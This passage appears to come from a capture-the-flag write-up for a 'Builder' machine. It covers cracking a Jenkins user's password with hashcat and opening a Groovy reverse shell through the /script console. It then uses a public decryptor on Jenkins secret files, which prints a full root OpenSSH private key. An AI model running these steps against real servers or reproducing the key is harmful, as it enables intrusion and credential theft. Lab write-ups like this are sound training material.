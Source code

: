 ```shell
Rejected.........: 0/330 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#01...: 123456 -> cassie
Hardware.Mon.#01.: Temp: 44c Fan: 33% Util: 94% Core:1980MHz Mem:6801MHz Bus:16

Started: Tue Oct 21 11:51:47 2025
Stopped: Tue Oct 21 11:51:54 2025
```

After using hashcat, we could crack the jeniffer's password, now we can log in the Jenkins instance. 


Once in, we can go to `/script` path and execute a groovy rev shell: 

![](/assets/img/Anexos/Máquina%20Builder-2.png)

![](/assets/img/Anexos/Máquina%20Builder-3.png)

## Privilage Escalation

Once in, although we're in the jenkins docker container and not in the target machine, we can now try the previous exploit that did not work initially:

> https://github.com/hoto/jenkins-credentials-decryptor

```shell
jenkins@0f52c222a4cc:~$ ./jenkins-credentials-decryptor -m secrets/master.key -c credentials.xml  -s ./secrets/hudson.util.Secret
[
  {
    "id": "1",
    "privateKey": "-----BEGIN OPENSSH PRIVATE KEY-----\n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\n-----END OPENSSH PRIVATE KEY-----",
    "scope": "GLOBAL",
    "username": "root"
  }
]
```